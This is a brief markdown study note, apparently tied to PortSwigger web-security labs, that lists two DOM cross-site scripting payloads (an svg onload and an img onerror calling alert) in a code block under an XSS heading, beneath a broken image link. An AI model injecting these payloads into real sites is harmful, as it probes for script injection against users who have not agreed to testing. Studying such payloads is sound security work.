 # XSS 

Tags: #XSS #PortSwigger #DOM #JavaScript 

```javascript 
\\ 
"> <svg/onload=alert(1)>
"> <img src/onerror=alert(document.domain)>
```
